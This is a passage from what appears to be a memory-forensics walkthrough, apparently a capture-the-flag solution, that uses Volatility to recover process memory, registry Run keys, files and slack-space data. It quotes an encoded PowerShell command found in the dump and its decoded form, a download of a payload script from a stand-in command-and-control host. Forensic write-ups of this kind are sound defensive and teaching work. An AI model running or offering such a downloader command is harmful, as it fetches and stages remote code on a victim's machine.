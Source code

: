Found commands:

```
powershell.exe -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0...
```

Decoded command:

```powershell
Invoke-WebRequest -Uri "http://malicious-c2.evil.com/payload.ps1" -OutFile "C:\temp\payload.ps1"
```

## Data Recovery

### Step 5: Extract Notepad Content

```bash
# Dump notepad process memory
vol.py -f memory.dmp -o dump/ windows.memmap --pid 2468

# Search for text content in notepad
strings dump/pid.2468.*.dmp | grep -E "(flag|password|secret)"
```

### Step 6: Registry Analysis

```bash
# Extract registry hives
vol.py -f memory.dmp windows.registry.hivelist

# Dump specific registry keys
vol.py -f memory.dmp windows.registry.printkey --key "Software\Microsoft\Windows\CurrentVersion\Run"
```

### Step 7: File Recovery

```bash
# List files in memory
vol.py -f memory.dmp windows.filescan | grep -i "flag\|secret\|important"

# Dump specific files
vol.py -f memory.dmp -o dump/ windows.dumpfiles --virtaddr 0x...
```

## Advanced Analysis

### Step 8: Hidden Data in Slack Space

```bash
# Use Volatility 2 for advanced analysis
python2 vol.py -f memory.dmp --profile=Win10x64_19041 imagecopy -O memory_copy.dd

# Analyze slack space
dd if=memory_copy.dd bs=1 skip=... count=... | strings
```
